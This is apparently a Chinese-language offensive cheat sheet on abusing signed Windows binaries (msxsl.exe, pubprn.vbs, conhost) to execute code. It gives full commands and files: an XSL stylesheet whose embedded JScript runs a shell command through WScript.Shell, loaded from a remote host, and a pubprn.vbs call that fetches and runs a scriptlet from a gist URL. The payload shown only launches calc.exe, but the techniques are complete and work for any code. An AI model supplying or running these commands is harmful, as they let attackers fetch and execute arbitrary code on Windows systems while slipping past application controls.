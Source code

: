 msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令。

下载地址 : https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML 及 XSL 文件，可以远程加载
```bash
msxsl http://192.168.1.1/1/demo.xml http://192.168.1.1/1/exec.xsl
```

demo.xml
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl
```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

### pubprn.vbs

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于`C:\Windows\System32\Printing_Admin_Scripts\en-US`，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给 GetObject()

```bash
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

### conhost

```bash
conhost calc.exe
```
